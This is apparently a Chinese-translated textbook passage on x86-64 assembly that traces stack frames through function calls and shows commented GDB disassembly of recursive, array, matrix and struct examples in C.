`assign`函数中的最后一条指令是`retq`指令。当`retq`执行时，返回地址会从栈中弹出并加载到寄存器`%rip`中。在我们的示例中，`%rip`此时将前进并指向`main`中的`callq`指令，地址为 0x55f。

在此时有几个重要的注意事项：

+   栈指针和帧指针已经恢复为调用`assign`之前的值，表明`main`的栈帧再次成为活动帧。

+   之前活动栈帧中的旧值*并没有*被移除，它们仍然存在于调用栈中。



在`main`函数中，调用`adder`时，*覆盖*了栈上旧的返回地址，并将新的返回地址（0x554）存入栈中。这个返回地址指向`adder`返回后的下一条指令，或者`mov %eax,-0x4(%rbp)`。寄存器`%rip`更新为指向`adder`中第一条需要执行的指令，该指令位于地址 0x536。



`adder`函数中的第一条指令保存了调用者的帧指针（即`main`中的`%rbp`）到栈上。



下一条指令将`%rbp`更新为`%rsp`的当前值，或者地址 0xd20。合起来，这两条指令确定了`adder`的栈帧开始位置。



请特别注意下一条即将执行的指令。回顾一下，`$0x28`是在调用`assign`时放置到栈上的。指令`mov $-0x4(%rbp),%eax`将栈上一个*旧的*值移动到寄存器`%eax`中！如果程序员在`adder`函数中初始化了变量`a`，这一操作是不会发生的。



位于地址 0x53d 的`add`指令将 2 加到寄存器`%eax`中。回想一下，当返回一个 32 位整数时，x86-64 使用的是组件寄存器`%eax`，而不是`%rax`。这两条指令一起相当于`adder`中的以下代码：

```
int a;

return a + 2;
```



在`pop`执行后，帧指针再次指向`main`的栈帧开始位置，即地址 0xd40。此时，栈指针包含地址 0xd28。

 `retq`指令从栈中弹出返回地址，将指令指针恢复到 0x554，或`main`中下一条要执行的指令地址。此时，`%rsp`中包含的地址为 0xd30。



在`main`中，`mov %eax,-0x4(%rbp)`指令将`%eax`中的值放置在`%rbp`上方四个字节的位置，或地址 0xd3c。接下来的指令将其重新放回`%eax`寄存器中。



略微跳跃，地址 0x55a 的`mov`指令将`%eax`中的值（或 0x2A）复制到寄存器`%esi`中，`%esi`是与`%rsi`相关的 32 位组件寄存器，通常用于存储函数的第二个参数。



下一条指令（`mov $0x400604,%edi`）将常量值（代码段内存中的一个地址）复制到寄存器`%edi`中。回想一下，寄存器`%edi`是`%rdi`的 32 位组件寄存器，通常用于存储函数的第一个参数。代码段内存地址 0x400604 是字符串`"x is %d\n"`的基地址。



下一条指令将寄存器`%eax`重置为 0。指令指针前进到调用`printf`函数的位置（该位置由标签`<printf@plt>`表示）。



下一条指令调用`printf`函数。为了简便起见，我们不再追踪`printf`函数（它是`stdio.h`的一部分）。然而，我们从手册页面（`man -s3 printf`）中可以了解到，`printf`具有以下格式：

```
int printf(const char * format, ...)
```

换句话说，第一个参数是指向指定格式的字符串的指针，第二个参数及之后的参数指定了该格式中使用的值。地址 0x55a–0x566 之间的指令对应着`main`函数中的以下一行：

```
printf("x is %d\n", x);
```

当`printf`函数被调用时：

+   一个返回地址（指定`printf`调用之后执行的指令）被推送到栈中。

+   `%rbp`的值被推送到栈中，`%rbp`被更新为指向栈顶，表示`printf`的栈帧开始位置。

在某个时刻，`printf`会引用其参数，这些参数是字符串`"x is` `%d\n"`和数值 0x2A。第一个参数存储在组件寄存器`%edi`中，第二个参数存储在组件寄存器`%esi`中。返回地址位于`%rbp`下方的位置`%rbp+8`。

对于任何有*n*个参数的函数，GCC 将前六个参数放入寄存器中，如表 7-17 所示，其余参数则放入栈中，*在*返回地址之下。

在调用 `printf` 之后，值 0x2A 以整数格式输出给用户。因此，值 42 被打印到屏幕上！



在调用 `printf` 之后，最后几条指令清理栈并为 `main` 函数的干净退出做准备。首先，地址为 0x56b 的 `mov` 指令确保返回寄存器中是 0（因为 `main` 做的最后一件事是返回 0）。



`leaveq` 指令为从函数调用返回做好栈的准备。请回忆，`leaveq` 类似于以下一对指令：

```
mov %rbp, %rsp

pop %rbp
```

换句话说，CPU 将栈指针覆盖为帧指针。在我们的例子中，栈指针最初从 0xd30 更新到 0xd40。接下来，CPU 执行 `pop %rbp`，它将位于 0xd40（在我们的例子中是地址 0x830）处的值放入 `%rbp` 中。`leaveq` 执行后，栈和帧指针恢复到执行 `main` 之前的原始值。

执行的最后一条指令是 `retq`。返回寄存器 `%eax` 中的值为 0，程序返回零，表示正确终止。

如果你仔细阅读了这一部分内容，你应该能理解为什么我们的程序会打印出值 42。实质上，程序无意中使用了栈上的旧值，导致它的行为与我们预期的不一样。这个例子相对无害；然而，我们将在后续章节讨论黑客如何滥用函数调用，导致程序以真正恶意的方式出错。

### 7.6 递归

递归函数是一类特殊的函数，它们通过调用自身（也叫做 *自引用* 函数）来计算一个值。像它们的非递归对等函数一样，递归函数为每次函数调用创建新的栈帧。与标准函数不同，递归函数包含对自身的函数调用。

让我们重新审视求和从 1 到 *n* 的正整数的这个问题。在前面的章节中，我们讨论了使用 `sumUp` 函数来完成这个任务。以下的代码列出了一个相关的函数 `sumDown`，它以逆序（*n* 到 1）加总这些数值，以及它的递归等效函数 `sumr`：

迭代

```
int sumDown(int n) {

    int total = 0;

    int i = n;

    while (i > 0) {

        total += i;

        i--;

    }

    return total;

}
```

递归

```
int sumr(int n) {

    if (n <= 0) {

        return 0;

    }

    return n + sumr(n-1);

}
```

递归函数 `sumr` 的基本情况处理任何小于 1 的 *n* 值。递归步骤调用 `sumr`，并将 *n –* 1 作为参数传入，然后在返回之前将结果加到 *n* 上。编译 `sumr` 并用 GDB 反汇编后得到以下汇编代码：

```
Dump of assembler code for function sumr:

0x400551 <+0>: push  %rbp                # save %rbp

0x400552 <+1>: mov   %rsp,%rbp           # update %rbp (new stack frame)

0x400555 <+4>: sub   $0x10,%rsp          # expand stack frame by 16 bytes

0x400559 <+8>: mov   %edi,-0x4(%rbp)     # move first param (n) to %rbp-0x4

0x40055c <+11>: cmp   $0x0,-0x4(%rbp)    # compare n to 0

0x400560 <+15>: jg    0x400569 <sumr+24> # if (n > 0) goto <sumr+24> [body]

0x400562 <+17>: mov   $0x0,%eax          # copy 0 to %eax

0x400567 <+22>: jmp   0x40057d <sumr+44> # goto <sumr+44> [done]

0x400569 <+24>: mov   -0x4(%rbp),%eax    # copy n to %eax (result = n)

0x40056c <+27>: sub   $0x1,%eax          # subtract 1 from %eax (result -= 1)

0x40056f <+30>: mov   %eax,%edi          # copy %eax to %edi

0x400571 <+32>: callq 0x400551 <sumr>    # call sumr(result)

0x400576 <+37>: mov   %eax,%edx          # copy returned value to %edx

0x400578 <+39>: mov   -0x4(%rbp),%eax    # copy n to %eax

0x40057b <+42>: add   %edx,%eax          # add sumr(result) to n

0x40057d <+44>: leaveq                   # prepare to leave the function

0x40057e <+45>: retq                     # return result
```

上述每一行汇编代码都有其对应的英文翻译。这里我们展示了相应的 `goto` 形式（第一种）和没有 `goto` 语句的 C 程序（第二种）：

C 的 goto 形式

```
int sumr(int n) {

    int result;

    if (n > 0) {

        goto body;

    }

    result = 0;

    goto done;

body:

    result = n;

    result -= 1;

    result = sumr(result);

    result += n;

done:

    return result;

}
```

没有 goto 的 C 版本

```
int sumr(int n) {

    int result;

    if (n <= 0) {

        return 0;

    }

    result = sumr(n-1);

    result += n;

    return result;

}
```

虽然这个翻译初看起来可能与原始的 `sumr` 函数不完全相同，但仔细检查后会发现这两个函数实际上是等效的。

#### 7.6.1 动画：观察调用栈的变化

作为练习，我们鼓励你绘制出堆栈，并观察值是如何变化的。我们在网上提供了一个动画，展示了当我们用值 3 运行这个函数时，堆栈是如何更新的。^(2)

### 7.7 数组

回忆一下，数组（详见“数组简介”章节，第 44 页）是由相同类型的数据元素按顺序存储在内存中的集合。静态分配的一维数组（详见“一维数组”章节，第 81 页）的形式为 <type> `arr[N]`，其中 <type> 是数据类型，`arr` 是与数组关联的标识符，`N` 是数据元素的数量。声明一个数组时，静态声明为 <type> `arr[N]` 或动态声明为 `arr = malloc(N * sizeof(` <type>`))` 会分配 `N` × `sizeof(` <type>`)` 总字节的内存。

要访问数组 `arr` 中索引为 `i` 的元素，可以使用 `arr[i]` 语法。编译器通常会在转换为汇编代码之前，将数组引用转换为指针运算（详见“指针变量”章节，第 67 页）。因此，`arr+i` 等同于 `&arr[i]`，而 `*(arr+i)` 等同于 `arr[i]`。由于数组 `arr` 中的每个数据元素的类型是 <type>，因此 `arr+i` 表示元素 `i` 存储在地址 `arr` + `sizeof(` <type>`)` × `i` 处。

表 7-18 列出了常见的数组操作及其对应的汇编指令。在接下来的例子中，假设我们声明了一个长度为 10 的 `int` 数组（`int arr[10]`）。假设寄存器 `%rdx` 存储 `arr` 的地址，寄存器 `%rcx` 存储 `int` 类型的值 `i`，寄存器 `%rax` 表示某个变量 `x`（类型也是 `int`）。回忆一下，`int` 类型的变量占用 4 个字节，而 `int *` 类型的变量占用 8 个字节。

**表 7-18：** 常见数组操作及其对应的汇编表示

| **操作** | **类型** | **汇编表示** |
| --- | --- | --- |
| `x = arr` | `int *` | `mov %rdx,%rax` |
| `x = arr[0]` | `int` | `mov (%rdx),%eax` |
| `x = arr[i]` | `int` | `mov (%rdx,%rcx,4),%eax` |
| `x = &arr[3]` | `int *` | `lea 0xc(%rdx),%rax` |
| `x = arr+3` | `int *` | `lea 0xc(%rdx),%rax` |
| `x = *(arr+5)` | `int` | `mov 0x14(%rdx),%eax` |

请特别注意表 7-18 中每个表达式的*类型*。一般来说，编译器使用 `mov` 指令来解引用指针，使用 `lea` 指令来计算地址。

注意，要访问元素 `arr[3]`（或使用指针运算 `*(arr+3)`），编译器会对地址 `arr+3*4` 进行内存查找，而不是 `arr+3`。要理解为什么这样做是必要的，请回忆一下，数组中任何索引为 `i` 的元素都会存储在地址 `arr + sizeof(<type>) * i` 处。因此，编译器必须将索引乘以数据类型的大小（在本例中为四，因为 `sizeof(int)` = 4）来计算正确的偏移量。还请记住，内存是按字节寻址的；通过正确字节数的偏移来计算地址就是获取地址的方式。最后，由于 `int` 类型的值只需要四个字节的空间，它们存储在寄存器 `%rax` 的组件寄存器 `%eax` 中。

举个例子，考虑一个包含 10 个整数元素的数组（`array`）（见图 7-7）。



*图 7-7：内存中 10 个整数数组的布局。每个标记为 *x*[*i*] 的框表示四个字节。*

注意，由于 `array` 是一个整数数组，每个元素占用正好四个字节。因此，一个包含 10 个元素的整数数组会消耗 40 个字节的连续内存。

要计算元素 3 的地址，编译器将索引 3 乘以整数类型的数据大小（4），得到偏移量 12（或 0xc）。果然，图 7-7 中的元素 3 位于字节偏移 *x*[12] 处。

让我们来看一个简单的 C 函数 `sumArray`，它将数组中所有元素求和：

```
int sumArray(int *array, int length) {

    int i, total = 0;

    for (i = 0; i < length; i++) {

        total += array[i];

    }

    return total;

}
```

`sumArray` 函数接收一个数组的地址及该数组的长度，并将数组中所有元素求和。现在让我们看一下 `sumArray` 函数的对应汇编代码：

```
0x400686 <+0>: push %rbp                    # save %rbp

0x400687 <+1>: mov  %rsp,%rbp               # update %rbp (new stack frame)

0x40068a <+4>: mov  %rdi,-0x18(%rbp)        # copy array to %rbp-0x18

0x40068e <+8>: mov  %esi,-0x1c(%rbp)        # copy length to %rbp-0x1c

0x400691 <+11>: movl $0x0,-0x4(%rbp)        # copy 0 to %rbp-0x4 (total)

0x400698 <+18>: movl $0x0,-0x8(%rbp)        # copy 0 to %rbp-0x8 (i)

0x40069f <+25>: jmp  0x4006be <sumArray+56> # goto <sumArray+56>

0x4006a1 <+27>: mov  -0x8(%rbp),%eax        # copy i to %eax

0x4006a4 <+30>: cltq                        # convert i to a 64-bit integer

0x4006a6 <+32>: lea  0x0(,%rax,4),%rdx      # copy i*4 to %rdx

0x4006ae <+40>: mov  -0x18(%rbp),%rax       # copy array to %rax

0x4006b2 <+44>: add  %rdx,%rax              # compute array+i*4, store in %rax

0x4006b5 <+47>: mov  (%rax),%eax            # copy array[i] to %eax

0x4006b7 <+49>: add  %eax,-0x4(%rbp)        # add %eax to total

0x4006ba <+52>: addl $0x1,-0x8(%rbp)        # add 1 to i (i+=1)

0x4006be <+56>: mov  -0x8(%rbp),%eax        # copy i to %eax

0x4006c1 <+59>: cmp  -0x1c(%rbp),%eax       # compare i to length

0x4006c4 <+62>: jl   0x4006a1 <sumArray+27> # if i<length goto <sumArray+27>

0x4006c6 <+64>: mov  -0x4(%rbp),%eax        # copy total to %eax

0x4006c9 <+67>: pop  %rbp                   # prepare to leave the function

0x4006ca <+68>: retq                        # return total
```

在跟踪这段汇编代码时，考虑访问的数据是表示地址还是值。例如，位于 `<sumArray+11>` 的指令会将 `%rbp-0x4` 设置为一个 `int` 类型的变量，初始值为 0。相反，存储在 `%rbp-0x18` 的参数是传递给函数的第一个参数（`array`），它的类型是 `int *`，对应数组的基地址。另一个不同的变量（我们称之为 `i`）存储在位置 `%rbp-0x8`。最后，请注意，只有在必要时，像 `add` 和 `mov` 这样的指令后才会附加大小后缀。在涉及常数值的情况下，编译器需要明确指出有多少字节的常数正在被移动。

敏锐的读者会注意到在 `<sumArray+30>` 这一行出现了一个以前未见的指令 `cltq`。`cltq` 指令代表“将长整型转换为四倍长整型”，它将存储在 `%eax` 中的 32 位 `int` 值转换为存储在 `%rax` 中的 64 位整数值。这一操作是必要的，因为后续的指令涉及指针运算。请记住，在 64 位系统中，指针占用 8 字节的空间。编译器使用 `cltq` 来简化过程，确保所有数据都存储在 64 位寄存器中，而不是 32 位组件中。

让我们仔细看看位于 `<sumArray+32>` 和 `<sumArray+49>` 之间的五条指令：

```
<+32>: lea 0x0(,%rax,4),%rdx       # copy i*4 to %rdx

<+40>: mov -0x18(%rbp),%rax        # copy array to %rax

<+44>: add %rdx,%rax               # add i*4 to array (i.e. array+i) to %rax

<+47>: mov (%rax),%eax             # dereference array+i*4, place in %eax

<+49>: add %eax,-0x4(%rbp)         # add %eax to total (i.e. total+=array[i])
```

记住，编译器通常使用 `lea` 来对操作数执行简单的算术运算。操作数 `0x0(,%rax,4)` 转换为 `%rax*4 + 0x0`。由于 `%rax` 存储了 `i` 的值，这个操作将 `i*4` 的值复制到 `%rdx`。此时，`%rdx` 包含计算 `array[i]` 正确偏移量所需的字节数（回想一下 `sizeof(int)` = 4）。

接下来的指令（`mov -0x18(%rbp),%rax`）将函数的第一个参数（`array` 的基地址）复制到寄存器 `%rax` 中。在下一条指令中将 `%rdx` 加到 `%rax` 中，导致 `%rax` 包含 `array + i*4`。回想一下，`array` 中索引为 `i` 的元素存储在地址 `array + sizeof(<type>) * i` 处。因此，`%rax` 现在包含了 `&array[i]` 的汇编级别地址计算。

位于 `<sumArray+47>` 的指令*解引用*了 `%rax` 中的值，将 `array[i]` 的值放入 `%eax`。注意使用了组件寄存器 `%eax`，因为 `array[i]` 包含一个 32 位的 `int` 值！与此不同，变量 `i` 在 `<sumArray+30>` 行被更改为四字（quad-word），因为 `i` 即将用于*地址计算*。再强调一下，地址作为 64 位字存储。

最后，`%eax` 被加到 `%rbp-0x4` 中的值，即 `total`。因此，位于 `<sumArray+22>` 和 `<sumArray+39>` 之间的五条指令对应于 `sumArray` 函数中的 `total += array[i]` 这一行。

### 7.8 矩阵

矩阵是一个二维数组。在 C 语言中，矩阵可以作为二维数组（`M[n][m]`）静态分配，也可以通过一次调用 `malloc` 动态分配，或者作为数组的数组进行动态分配。让我们考虑数组的数组实现。第一个数组包含 `n` 个元素（`M[n]`），矩阵中的每个元素 `M[i]` 都包含一个包含 `m` 个元素的数组。以下代码片段声明了大小为 4 × 3 的矩阵：

```
//statically allocated matrix (allocated on stack)

int M1[4][3];

//dynamically allocated matrix (programmer friendly, allocated on heap)

int **M2, i;

M2 = malloc(4 * sizeof(int*));

for (i = 0; i < 4; i++) {

    M2[i] = malloc(3 * sizeof(int));

}
```

在动态分配的矩阵中，主数组包含一系列连续的 `int` 指针。每个整数指针都指向内存中的一个不同数组。图 7-8 展示了我们通常如何可视化每个矩阵。



*图 7-8：静态分配（`M1`）和动态分配（`M2`）的 3 × 4 矩阵示意图*

对于这两种矩阵声明，可以使用双重索引语法 `M[i][j]` 访问元素 (*i*,*j*)，其中 `M` 可以是 `M1` 或 `M2`。然而，这些矩阵在内存中的组织方式不同。尽管这两种矩阵都将元素连续存储在其主数组中，我们的静态分配矩阵还将所有行连续存储在内存中，如图 7-9 所示。



*图 7-9：矩阵 `M1` 按行优先顺序的内存布局*

对于`M2`，这种连续的排列方式并不保证。回想一下（参见“二维数组内存布局”章节的第 86 页），为了在堆上连续分配一个*n* × *m*矩阵，我们应该使用一次`malloc`调用来分配*n* × *m*个元素：

```
//dynamic matrix (allocated on heap, memory efficient way)

#define ROWS 4

#define COLS 3

int *M3;

M3 = malloc(ROWS * COLS * sizeof(int));
```

回想一下，声明`M3`时，元素（*i*,*j*）不能使用`M[i][j]`的表示法访问。相反，我们必须使用格式`M3[i*COLS + j]`来索引元素。

#### 7.8.1 连续二维数组

考虑一个函数`sumMat`，它的第一个参数是指向连续分配的（无论是静态分配的还是内存高效的动态分配的）矩阵的指针，后面跟着行数和列数，并返回矩阵中所有元素的和。

我们在接下来的代码片段中使用了缩放索引，因为它适用于静态分配和动态分配的连续矩阵。回想一下，语法`m[i][j]`不能在前面讨论的内存高效的连续动态分配中使用。

```
int sumMat(int *m, int rows, int cols) {

    int i, j, total = 0;

    for (i = 0; i < rows; i++){

        for (j = 0; j < cols; j++){

            total += m[i*cols + j];

        }

    }

    return total;

}
```

下面是对应的汇编代码。每一行都带有其英文翻译的注释：

```
Dump of assembler code for function sumMat:

0x400686 <+0>:   push %rbp                 # save rbp

0x400687 <+1>:   mov  %rsp,%rbp            # update rbp (new stack frame)

0x40068a <+4>:   mov  %rdi,-0x18(%rbp)     # copy m to %rbp-0x18

0x40068e <+8>:   mov  %esi,-0x1c(%rbp)     # copy rows to %rbp-0x1c

0x400691 <+11>:  mov  %edx,-0x20(%rbp)     # copy cols parameter to %rbp-0x20

0x400694 <+14>:  movl $0x0,-0x4(%rbp)      # copy 0 to %rbp-0x4 (total)

0x40069b <+21>:  movl $0x0,-0xc(%rbp)      # copy 0 to %rbp-0xc (i)

0x4006a2 <+28>:  jmp  0x4006e1 <sumMat+91> # goto <sumMat+91>

0x4006a4 <+30>:  movl $0x0,-0x8(%rbp)      # copy 0 to %rbp-0x8 (j)

0x4006ab <+37>:  jmp  0x4006d5 <sumMat+79> # goto <sumMat+79>

0x4006ad <+39>:  mov  -0xc(%rbp),%eax      # copy i to %eax

0x4006b0 <+42>:  imul -0x20(%rbp),%eax     # mult i with cols, place in %eax

0x4006b4 <+46>:  mov  %eax,%edx            # copy i*cols to %edx

0x4006b6 <+48>:  mov  -0x8(%rbp),%eax      # copy j to %eax

0x4006b9 <+51>:  add  %edx,%eax            # add i*cols with j, place in %eax

0x4006bb <+53>:  cltq                      # convert %eax to a 64-bit int

0x4006bd <+55>:  lea  0x0(,%rax,4),%rdx    # mult (i*cols+j) by 4,put in %rdx

0x4006c5 <+63>:  mov  -0x18(%rbp),%rax     # copy m to %rax

0x4006c9 <+67>:  add  %rdx,%rax            # add m to (i*cols+j)*4,put in %rax

0x4006cc <+70>:  mov  (%rax),%eax          # copy m[i*cols+j] to %eax

0x4006ce <+72>:  add  %eax,-0x4(%rbp)      # add m[i*cols+j] to total

0x4006d1 <+75>:  addl $0x1,-0x8(%rbp)      # add 1 to j (j++)

0x4006d5 <+79>:  mov  -0x8(%rbp),%eax      # copy j to %eax

0x4006d8 <+82>:  cmp  -0x20(%rbp),%eax     # compare j with cols

0x4006db <+85>:  jl   0x4006ad <sumMat+39> # if (j < cols) goto <sumMat+39>

0x4006dd <+87>:  addl $0x1,-0xc(%rbp)      # add 1 to i

0x4006e1 <+91>:  mov  -0xc(%rbp),%eax      # copy i to %eax

0x4006e4 <+94>:  cmp  -0x1c(%rbp),%eax     # compare i with rows

0x4006e7 <+97>:  jl   0x4006a4 <sumMat+30> # if (i < rows) goto <sumMat+30>

0x4006e9 <+99>:  mov  -0x4(%rbp),%eax      # copy total to %eax

0x4006ec <+102>: pop  %rbp                 # clean up stack

0x4006ed <+103>: retq                      # return total
```

局部变量`i`、`j`和`total`分别加载到栈上的地址`%rbp-0xc`、`%rbp-0x8`和`%rbp-0x4`中。输入参数`m`、`row`和`cols`分别存储在`%rbp-0x8`、`%rbp-0x1c`和`%rbp-0x20`位置。利用这些知识，让我们聚焦于处理矩阵中元素（*i*,*j*）访问的部分：

```
0x4006ad <+39>: mov  -0xc(%rbp),%eax    # copy i to %eax

0x4006b0 <+42>: imul -0x20(%rbp),%eax   # multiply i with cols, place in %eax

0x4006b4 <+46>: mov  %eax,%edx          # copy i*cols to %edx
```

第一组指令计算`i*cols`的值并将其放入寄存器`%edx`中。回想一下，对于名为`matrix`的矩阵，`matrix + (i*cols)`等价于`&matrix[i]`。

```
0x4006b6 <+48>: mov  -0x8(%rbp),%eax    # copy j to %eax

0x4006b9 <+51>: add  %edx,%eax          # add i*cols with j, place in %eax

0x4006bb <+53>: cltq                    # convert %eax to a 64-bit int

0x4006bd <+55>: lea  0x0(,%rax,4),%rdx  # multiply (i*cols+j) by 4,put in %rdx
```

下一组指令计算`(i*cols + j)*4`。编译器将索引`i*cols+j`乘以四，因为矩阵中的每个元素是一个四字节的整数，这样乘法可以使编译器计算出正确的偏移量。在`<sumMat+53>`行的`cltq`指令需要将`%eax`的内容扩展为 64 位整数，因为该值将用于地址计算。

接下来，以下一组指令将计算出的偏移量加到矩阵指针上，并解引用它以得到元素（*i*,*j*）的值：

```
0x4006c5 <+63>: mov -0x18(%rbp),%rax   # copy m to %rax

0x4006c9 <+67>: add %rdx,%rax          # add m to (i*cols+j)*4, place in %rax

0x4006cc <+70>: mov (%rax),%eax        # copy m[i*cols+j] to %eax

0x4006ce <+72>: add %eax,-0x4(%rbp)    # add m[i*cols+j] to total
```

第一条指令将矩阵`m`的地址加载到寄存器`%rax`中。`add`指令将`(i*cols + j)*4`加到`m`的地址上，从而正确计算元素（*i*,*j*）的偏移量。第三条指令解引用`%rax`中的地址，并将值放入`%eax`中。注意使用`%eax`作为目标寄存器；由于我们的矩阵包含整数，而整数占用四个字节，因此再次使用`%eax`而不是`%rax`。

最后一条指令将`%eax`中的值加到位于栈地址`%rbp-0x4`处的累加器`total`中。

让我们考虑如何访问图 7-9 中的元素(1,2)。为了方便起见，图示在图 7-10 中已重现：



*图 7-10：矩阵`M1`的按行优先顺序存储的内存布局*

元素(1,2)位于地址`M1 + 1*COLS + 2`。由于`COLS`=3，元素(1,2)对应于`M1+5`。为了访问该位置的元素，编译器必须将 5 乘以`int`数据类型的大小（四个字节），得到偏移量`M1+20`，这对应于图中的字节*x*[20]。解引用这个位置得到元素 5，确实是矩阵中的元素(1,2)。

#### 7.8.2 非连续矩阵

非连续矩阵的实现稍微复杂一些。图 7-11 展示了`M2`如何在内存中布局。



*图 7-11：矩阵`M2`的非连续内存布局*

请注意，指针数组是连续的，并且`M2`的每个元素所指向的数组（例如，`M2[i]`）是连续的。然而，单独的数组之间并不连续。由于`M2`是指针数组，`M2`的每个元素占用八个字节的空间。相比之下，由于`M2[i]`是`int`数组，`M2[i]`中的每个元素相隔四个字节。

以下示例中的`sumMatrix`函数将一个整数指针数组（称为`matrix`）作为第一个参数，行数和列数作为第二和第三个参数：

```
int sumMatrix(int **matrix, int rows, int cols) {

    int i, j, total=0;

    for (i = 0; i < rows; i++) {

        for (j = 0; j < cols; j++) {

            total += matrix[i][j];

        }

    }

    return total;

}
```

尽管这个函数看起来与之前展示的`sumMat`函数几乎相同，但该函数接受的矩阵是一个连续的指针数组。每个指针包含一个单独连续数组的地址，该数组对应矩阵中的一行。

以下是`sumMatrix`的对应汇编代码。每行都附有英文翻译。

```
Dump of assembler code for function sumMatrix:

0x4006ee <+0>:   push   %rbp                    # save rbp

0x4006ef <+1>:   mov    %rsp,%rbp               # update rbp (new stack frame)

0x4006f2 <+4>:   mov    %rdi,-0x18(%rbp)        # copy matrix to %rbp-0x18

0x4006f6 <+8>:   mov    %esi,-0x1c(%rbp)        # copy rows to %rbp-0x1c

0x4006f9 <+11>:  mov    %edx,-0x20(%rbp)        # copy cols to %rbp-0x20

0x4006fc <+14>:  movl   $0x0,-0x4(%rbp)         # copy 0 to %rbp-0x4 (total)

0x400703 <+21>:  movl   $0x0,-0xc(%rbp)         # copy 0 to %rbp-0xc (i)

0x40070a <+28>:  jmp    0x40074e <sumMatrix+96> # goto <sumMatrix+96>

0x40070c <+30>:  movl   $0x0,-0x8(%rbp)         # copy 0 to %rbp-0x8 (j)

0x400713 <+37>:  jmp    0x400742 <sumMatrix+84> # goto <sumMatrix+84>

0x400715 <+39>:  mov    -0xc(%rbp),%eax         # copy i to %eax

0x400718 <+42>:  cltq                           # convert i to 64-bit integer

0x40071a <+44>:  lea    0x0(,%rax,8),%rdx       # mult i by 8, place in %rdx

0x400722 <+52>:  mov    -0x18(%rbp),%rax        # copy matrix to %rax

0x400726 <+56>:  add    %rdx,%rax               # put i*8 + matrix in %rax

0x400729 <+59>:  mov    (%rax),%rax             # copy matrix[i] to %rax (ptr)

0x40072c <+62>:  mov    -0x8(%rbp),%edx         # copy j to %edx

0x40072f <+65>:  movslq %edx,%rdx               # convert j to 64-bit integer

0x400732 <+68>:  shl    $0x2,%rdx               # mult j by 4, place in %rdx

0x400736 <+72>:  add    %rdx,%rax               # put j*4 + matrix[i] in %rax

0x400739 <+75>:  mov    (%rax),%eax             # copy matrix[i][j] to %eax

0x40073b <+77>:  add    %eax,-0x4(%rbp)         # add matrix[i][j] to total

0x40073e <+80>:  addl   $0x1,-0x8(%rbp)         # add 1 to j (j++)

0x400742 <+84>:  mov    -0x8(%rbp),%eax         # copy j to %eax

0x400745 <+87>:  cmp    -0x20(%rbp),%eax        # compare j with cols

0x400748 <+90>:  jl     0x400715 <sumMatrix+39> # if j<cols goto<sumMatrix+39>

0x40074a <+92>:  addl   $0x1,-0xc(%rbp)         # add 1 to i (i++)

0x40074e <+96>:  mov    -0xc(%rbp),%eax         # copy i to %eax

0x400751 <+99>:  cmp    -0x1c(%rbp),%eax        # compare i with rows

0x400754 <+102>: jl     0x40070c <sumMatrix+30> # if i<rows goto<sumMatrix+30>

0x400756 <+104>: mov    -0x4(%rbp),%eax         # copy total to %eax

0x400759 <+107>: pop    %rbp                    # restore %rbp

0x40075a <+108>: retq                           # return total
```

再次说明，变量`i`、`j`和`total`分别位于栈地址`%rbp-0xc`、`%rbp-0x8`和`%rbp-0x4`。输入参数`matrix`、`row`和`cols`分别位于栈地址`%rbp-0x18`、`%rbp-0x1c`和`%rbp-0x20`。

让我们放大专门处理元素访问(*i*,*j*)，即`matrix[i][j]`的部分：

```
0x400715 <+39>: mov  -0xc(%rbp),%eax       # copy i to %eax

0x400718 <+42>: cltq                       # convert i to 64-bit integer

0x40071a <+44>: lea  0x0(,%rax,8),%rdx     # multiply i by 8, place in %rdx

0x400722 <+52>: mov  -0x18(%rbp),%rax      # copy matrix to %rax

0x400726 <+56>: add  %rdx,%rax             # add i*8 to matrix, place in %rax

0x400729 <+59>: mov  (%rax),%rax           # copy matrix[i] to %rax (pointer)
```

本示例中的五条指令计算`matrix[i]`，或`*(matrix+i)`。由于`matrix[i]`包含一个指针，首先将`i`转换为 64 位整数。然后，编译器在将`i`加到`matrix`之前，将其乘以八，以计算正确的地址偏移量（记住，指针的大小是八个字节）。`<sumMatrix+59>`处的指令随后解引用计算出的地址，以获取元素`matrix[i]`。

由于`matrix`是一个`int`指针数组，`matrix[i]`中定位的元素本身是一个`int`指针。`matrix[i]`中的第*j*个元素位于`matrix[i]`数组中的偏移量*j* × 4 处。

下一组指令提取数组`matrix[i]`中的第*j*个元素：

```
0x40072c <+62>: mov    -0x8(%rbp),%edx    # copy j to %edx

0x40072f <+65>: movslq %edx,%rdx          # convert j to a 64-bit integer

0x400732 <+68>: shl    $0x2,%rdx          # multiply j by 4, place in %rdx

0x400736 <+72>: add    %rdx,%rax          # add j*4 to matrix[i], put in %rax

0x400739 <+75>: mov    (%rax),%eax        # copy matrix[i][j] to %eax

0x40073b <+77>: add    %eax,-0x4(%rbp)    # add matrix[i][j] to total
```

该代码片段中的第一条指令将变量 `j` 加载到寄存器 `%edx` 中。位于 `<sumMatrix+65>` 的 `movslq` 指令将 `%edx` 转换为 64 位整数，并将结果存储到 64 位寄存器 `%rdx` 中。然后，编译器使用左移（`shl`）指令将 `j` 乘以四，并将结果存储到寄存器 `%rdx` 中。最后，编译器将结果值加到 `matrix[i]` 中的地址，得到元素 `matrix[i][j]` 的地址。位于 `<sumMatrix+75>` 和 `<sumMatrix+77>` 的指令获取 `matrix[i][j]` 的值，并将该值加到 `total` 中。

让我们重新查看 图 7-11，并考虑访问 M2[1][2] 的一个示例。为方便起见，我们在 图 7-12 中重新展示该图：



*图 7-12：矩阵 `M2` 在内存中的非连续布局*

请注意，`M2` 从内存位置 *x*[0] 开始。编译器首先通过将 1 乘以 8（`sizeof(int *)`），并将其加到 `M2` 的地址（*x*[0]）来计算 `M2[1]` 的地址，得到了新地址 *x*[8]。对该地址进行解引用后，得到与 `M2[1]` 相关联的地址，即 *x*[36]。接着，编译器将索引 2 乘以 4（`sizeof(int)`），并将结果（8）加到 *x*[36]，得到最终的地址 *x*[44]。解引用该地址后，得到值 5。果然，在 图 7-11 中对应 `M2[1][2]` 的元素的值为 5。

### 7.9 汇编中的结构体

`struct`（参见 第 103 页 的“C 结构体”）是 C 语言中另一种创建数据类型集合的方式。与数组不同，结构体允许不同的数据类型被组合在一起。C 语言像处理一维数组一样存储 `struct`，其中数据元素（字段）是连续存储的。让我们重新查看 第一章 中的 `struct studentT`：

```
struct studentT {

    char name[64];

    int  age;

    int  grad_yr;

    float gpa;

};

struct studentT student;
```

图 7-13 展示了 `student` 在内存中的布局。每个 *x*[*i*] 表示特定字段的地址。



*图 7-13：`struct studentT` 的内存布局*

